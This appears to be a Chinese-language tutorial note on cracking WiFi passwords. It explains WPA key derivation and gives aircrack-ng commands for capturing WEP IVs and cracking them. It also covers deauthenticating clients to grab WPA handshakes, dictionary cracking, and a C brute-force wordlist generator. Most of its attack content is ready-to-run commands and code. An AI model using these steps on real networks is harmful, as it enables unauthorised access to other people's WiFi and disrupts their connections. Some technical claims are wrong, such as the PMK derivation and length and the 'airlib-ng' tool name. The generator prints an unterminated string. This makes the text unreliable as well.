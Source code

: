 # wifi破解
wpa密码叫做PSK（pre-shared key），长度一般是8 - 63字节，它加上ssid通过SHA-1算法可以得到PMK（pairwise master key）。PMK=SHA-1（ssid，psk），PMK的长度是定长的，都是64字节。事先把PMK计算好的工具叫做airlib-ng。

认证的时候会生成一个PTK（pairwise temporary）,这是一组密钥，由参数客户端MAC地址，AP的BSSID、A-NONCE、S-NONCE、PMK，其中A-NONCE和S-NONCE 是两个随机数哈希出来。PTK加上报文数据采用一定的算法（AES或TKIP），得到密文，同时会得到一个签名叫做MIC（message intergrality check）。

四次握手包中含有--客户端MAC，AP-BSSID，A-NONCE，S-NONCE，MIC。最关键的PMK和PTK是不包含在握手包里的！
	
    PSK(pwd) + BSSID---> PMK
    client-MAC、BSSID、A-NONCE、S-NONCE、PMK ---> PTK
    PTK + data ---> MIC

所以截包可以获得的是：MAC，BSSID，A-NONCE，S-NONCE,data 。利用字典计算出MIC，然后和报文中的MIC作比较。

## wep
ubuntu中安装aircrack-ng工具集:
```
    sudo aptitude install aircrack-ng
```

开启监听模式，会启动6个后台进程，启动监控模式后无线端口是mon0,以后一次累加
```
    sudo airmon-ng start wlan0	
```

不筛选显示所有的AP和他们的客户端
```
    sudo airodump-ng mon0
```

筛选相应对的报文,一定要抓取到若干万的iv对
```
    sudo airodump-ng mon0 --ivs --bssid EC:17:2F:F2:D7:B6 -w wep       #--ivs只抓取IVs,--bssid指定AP的MAC，-w指定写入的文件
```

开始破解,可以边抓，边破解
```
    aircrack-ng 捕获的ivs文件
```

wpa
前两步与wep破解一样，开启监视，抓包（不添加ivs参数）。但是要进行deauth攻击才更有机会抓到握手包
```
    aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

如果抓到握手包，airodump页面右上角会显示，WPA handshake：（mac地址）

破解
```
    aircrack-ng -w dic 捕获的cap文件  #字典文件
```

## 生成字典文件的程序
```
    #define MINLEN 8
    #define MAXLEN 20
    
    #include <stdio.h>
    #include <stdint.h>
    #include <stdlib.h>
    
    int minlen;
    char crypt[63]="1234567890aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ";
    
    void echo(int, char *);
    
    int main(int argc,char *argv[])
    {
    	char *buf;
    	for(minlen=MINLEN;minlen<MAXLEN;minlen++){ 		/* 生成的字符长度可选 */
    		buf = malloc(minlen);
    		echo(0,buf);
    		free(buf);
    	}
    }
    
    void echo(int pos,char *buf)
    {
    	int i;
    	if(pos == minlen - 1){					/* pos ==> 0 - 7 */
    		for(i = 0;i < 62;i++)				/* 相当于最内层的for循环 */
    			printf("%s%c\n",buf,crypt[i]);
    		return;
    	}
    	for(i = 0;i < 62;i++){
    		buf[pos] = crypt[i];
    		echo(pos+1,buf);
    	}
    	return;
    }
```
